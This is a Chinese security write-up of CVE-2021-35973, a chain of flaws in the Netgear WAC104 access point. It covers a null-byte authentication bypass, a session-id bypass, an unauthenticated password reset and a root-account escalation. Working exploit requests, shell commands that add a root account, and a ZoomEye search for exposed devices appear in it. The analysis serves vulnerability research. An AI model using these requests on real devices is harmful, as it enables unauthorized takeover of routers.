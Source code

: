 > 原文链接: https://www.anquanke.com//post/id/247599 


# CVE-2021-35973：Netgear wac104 身份认证绕过


                                阅读量   
                                **117396**
                            
                        |
                        
                                                                                    



[![](https://p3.ssl.qhimg.com/t01df2fc7b083362b36.jpg)](https://p3.ssl.qhimg.com/t01df2fc7b083362b36.jpg)



作者：OneShell@知道创宇404实验室**<br>**

## 漏洞分析

最直观的方式，是先看POC，得到大概利用思路，再进行静态分析，然后拿真实设备调试（咸鱼）。

### <a class="reference-link" name="http%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87"></a>http认证绕过

使用的后端是mini_httpd，一个小型的嵌入式后端服务器，常见的还有lighthttpd、httpd等等，或者直接通过一些脚本例如lua来充当后端也是存在的。

通过在URL中附加`%00currentsetting.htm`来达到身份认证绕过，本来一开始以为是类似于之前的Netgear的一个身份认证绕过，通过`strstr()`此类函数直接判定URL中包含一些全局资源，然后无条件返回请求的资源，但是，并不是这样的，而是`currentsetting.htm`字段会触发一个判定标志，这个标志=1会直接使判定通过。这个标志在http解析流程中一共有三个被赋值的地方，分别是：

1.在从`00407A28`开始的函数，也就是http的处理流程，当header的解析时，当`SOAPAction`字段包含特定的字符串`urn:NETGEAR-ROUTER:service`

[![](https://p5.ssl.qhimg.com/t01614b4110a5d6a689.png)](https://p5.ssl.qhimg.com/t01614b4110a5d6a689.png)

2.在函数从`00407A28`地址开始，同样在http解析流程中，当请求URL中包含字符串`setupwizard.cgi`

[![](https://p0.ssl.qhimg.com/t01b80f9fd2a08232b5.png)](https://p0.ssl.qhimg.com/t01b80f9fd2a08232b5.png)

3.还是在这个http处理的函数中

[![](https://p5.ssl.qhimg.com/t0111b318471d57c355.png)](https://p5.ssl.qhimg.com/t0111b318471d57c355.png)

但是前两个产生的标志位，出现在函数的比较靠前位置，都会导致程序的提前中止，就不能达到绕过的效果，第三个则相对靠后，不会退出。

[![](https://p1.ssl.qhimg.com/t0189190b366f6a885c.png)](https://p1.ssl.qhimg.com/t0189190b366f6a885c.png)

因此可以通过构造如下的请求，对任意页面进行未授权访问：

```
GET /file-to-access%00currentsetting.htm HTTP/1.1
```

### <a class="reference-link" name="%E5%8F%91%E7%94%9F%E5%9C%A8setup.cgi%E4%B8%AD%E7%9A%84sesstion%20id%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87"></a>发生在setup.cgi中的sesstion id认证绕过

在main函数的代码开头，如果是POST方法，紧接下来就是对于`/tmp/SessionFile`文件的读取。先从POST请求中获取id字段的值，然后通过一个子函数`sub_403F04`从`/tmp/SessionFile`中读取存在系统中的id，二者进行比较。如果相同则通过了id的校验。验证逻辑关键代码如下：

```
id_loc = strstr(post_data, "id=");
if (id_loc) `{`
    id_from_post = strtol(id_loc + 3, &amp;v19, 16);     // 字符串转换成长整数, v19指向处理完id后的字符串
    if(v19 &amp;&amp; strstr(v19, "sp="))                     // 根据id和sp字段寻找session_file
        snprintf(session_file, 128, "%s%s", session_file)
    if (id_from_post == sub_403F04(session_file))
        goto verify_success_label;
`}`
```

但是在子函数`sub_403F04`中存在逻辑上的问题，如果`session_file`不存在，`id_from_file`会直接返回0。那么，就可以通过构造`id=0&amp;sp=ABC`这种肯定找不到`session_file`的字段，从而达到`id_from_post == id_from_file == 0`验证通过。

```
int sub_403F04(char* session_file) `{`
    id_from_file = 0;
    File* f = fopen(session_file, "r");
    if (f) `{`
        fscan(f, "%x", &amp;id_from_file);
        fclose(f);
    `}`
    return id_from_file;
`}`
```

### <a class="reference-link" name="setup.cgi%E6%9C%AA%E6%A3%80%E9%AA%8C%E5%AF%86%E7%A0%81%E4%BF%AE%E6%94%B9"></a>setup.cgi未检验密码修改

整个cgi的处理流程大概是，当用户通mini_httpd登录，mini_httpd会将请求方式和请求附加参数写入到环境变量中，cgi读取环境变量`REQUEST_METHOD`获取请求方式，例如GET或POST；读取`QUERY_STRING`获取请求参数；然后通过写入能唯一标识会话的一些参数到文件中，用于会话管理。最后就是具体的对用户发送的数据进行处理。这个流程可以在setup.cgi文件逆向的`main`函数中查看，还是比较清晰明了。

在CVE作者的分析文章里面，有提到是通过cgi的哪一个接口直接修改密码的，我也定位到了这个函数`sub_40808`。但是，这个函数在cgi中没有被调用过？那么作者是如何得到这个接口的呢，直接通过抓包么。先直接给出payload，通过构造如下的方式可以重新设置密码。

```
GET /setup.cgi?todo=con_save_passwd&amp;sysNewPasswd=ABC&amp;sysConfirmPasswd=ABC%00currentsetting.htm HTTP/1.1
Host: aplogin
```

对于`sub_40808`的逆向，流程也很简单，检查两次输入的新密码是否相同，如果相同，就写入到NVRAM中的http_password中。但是如果要永久更改admin账号的密码到/etc/passwd和/etc/htpasswd中，可以通过如下两种方式之一：
1. 重启设备，可以通过调用接口`/setup.cgi?todo=reboot`，将密码写入到/etc/passwd和/etc/htpasswd中
1. 调用接口`/setup.cgi?todo=save_passwd`将密码写入到文件中
猜测这两个接口，是因为有路由器真实设备，在初始化的时候，第一次设置密码，通过分析交互http数据包得到的。

### <a class="reference-link" name="/tmp/etc%E7%9B%AE%E5%BD%95%E6%9D%83%E9%99%90%E7%AE%A1%E7%90%86"></a>/tmp/etc目录权限管理

可以通过setup.cgi开启路由器的telnet，结合之前的mini_httpd和setup.cgi的认证绕过，请求`/setup.cgi?todo=debug`。此时通过telnet登录得到的权限是admin权限，而不是root权限。但是因为/tmp/etc目录权限管理的问题，可以在/tmp/etc/passwd中添加一个root权限的账号。操作如下：

```
cd /tmp/etc
cp passwd passwdx
echo toor:scEOyDvMLIlp6:0:0::scRY.aIzztZFk:/sbin/sh &gt;&gt; passwdx
mv passwd old_passwd
mv passwdx passwd
```

出现问题的原因是分析如下，/etc/目录通过软链接到了/tmp/etc/目录，而/tmp/etc/目录的权限是777。

[![](https://p4.ssl.qhimg.com/t0161dea847100c65c1.png)](https://p4.ssl.qhimg.com/t0161dea847100c65c1.png)

[![](https://p0.ssl.qhimg.com/t01c05950cfca24b4d8.png)](https://p0.ssl.qhimg.com/t01c05950cfca24b4d8.png)

那么admin权限的用户不能更改/etc/passwd文件，因为这是被root拥有的且权限为644（rw-r—r—)。但是admin权限的用户可以创建一个新的passwd文件，然后通过如上的方式，添加root权限账号。

这是执行了添加root权限操作后的文件属性

[![](https://p3.ssl.qhimg.com/t0131977fdbedb0aebd.png)](https://p3.ssl.qhimg.com/t0131977fdbedb0aebd.png)



## 小结

通过如上一系列的攻击链，先通过http的认证绕过，可以访问到setup.cgi；但是setup.cgi的操作也是存在sessionID认证，于是再次进行认证绕过；而且通过分析setup.cgi提供的接口，发现可以任意修改admin权限的登录密码，还可以开启调试模式的telnet；虽然这个时候通过telnet登录上去的是一个admin权限（非root），但是恰好由于/etc/里面的文件权限管理的问题，可以添加root权限的账号和密码。

那么这一系列的操作下来，就达到了一个未授权RCE漏洞。太强了太强了。



## 漏洞影响面

通过ZoomEye网络空间搜索引擎，搜索ZoomEye dork数据挖掘语法查看漏洞公网资产影响面。

[zoomeye dork](https://www.zoomeye.org/searchResult?q=app%3A%22Netgear%20wac104%22) 关键词：app:”Netgear wac104”

也可以搜索漏洞编号会关联出zoomeye dork 关键词：CVE-2021-35973

[漏洞影响面全球视角可视化](https://www.zoomeye.org/globalmap/app%3A%22Netgear%20wac104%22/all/0)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://images.seebug.org/content/images/2021/07/120e692a-dfe4-4a78-b839-4e848a8ec27e.png-w331s)

## 参考链接
<li>
[https://www.seebug.org/vuldb/ssvid-99295](https://www.seebug.org/vuldb/ssvid-99295)[/https://www.seebug.org/vuldb/ssvid-99295](//www.seebug.org/vuldb/ssvid-99295)
</li>